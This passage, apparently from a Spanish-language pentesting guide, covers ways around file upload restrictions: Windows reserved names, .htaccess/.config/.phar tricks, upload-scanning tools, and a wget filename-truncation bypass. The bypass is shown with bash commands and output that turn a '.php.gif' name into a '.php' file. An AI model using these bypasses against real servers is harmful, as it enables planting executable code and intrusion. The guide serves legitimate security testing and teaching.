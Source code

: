 6. Carga un archivo en **Windows** utilizando **nombres reservados** \(**prohibidos**\) como CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8 y LPT9.

También intenta cargar un ejecutable \(.exe\) o un **.html** \(menos sospechoso\) que **ejecutará código** cuando sea abierto accidentalmente por la víctima.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files" %}

Si estás intentando cargar archivos en un servidor **PHP**, [echa un vistazo al truco de **.htaccess** para ejecutar código](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess).
Si estás intentando cargar archivos en un servidor **ASP**, [echa un vistazo al truco de **.config** para ejecutar código](../pentesting/pentesting-web/iis-internet-information-services.md#execute-config-files).
Los archivos `.phar` son como los archivos `.jar` para Java, pero para PHP, y se pueden **usar como un archivo PHP** (ejecutándolo con PHP o incluyéndolo dentro de un script...).

La extensión `.inc` se utiliza a veces para archivos PHP que solo se utilizan para **importar archivos**, por lo que en algún momento alguien podría haber permitido **ejecutar esta extensión**.

**Verifique muchas posibles vulnerabilidades de carga de archivos con el complemento BurpSuit** [**https://github.com/modzero/mod0BurpUploadScanner**](https://github.com/modzero/mod0BurpUploadScanner) **o use una aplicación de consola que encuentre qué archivos se pueden cargar y pruebe diferentes trucos para ejecutar código:** [**https://github.com/almandin/fuxploider**](https://github.com/almandin/fuxploider)

## **Truco de carga de archivos/SSRF con wget**

En algunas ocasiones, puede suceder que un servidor esté utilizando **`wget`** para **descargar archivos** y se pueda **indicar** la **URL**. En estos casos, es posible que el código esté verificando que la extensión de los archivos descargados esté en una lista blanca para asegurarse de que solo se descarguen archivos permitidos. Sin embargo, **esta verificación se puede eludir**.
La **longitud máxima** de un **nombre de archivo** en **Linux** es de **255**, sin embargo, **wget** trunca los nombres de archivo a **236** caracteres. Puede **descargar un archivo llamado "A"\*232+".php"+".gif"**, este nombre de archivo **burlará** la **verificación** (como en este ejemplo **".gif"** es una extensión **válida**) pero `wget` **renombrará** el archivo a **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

```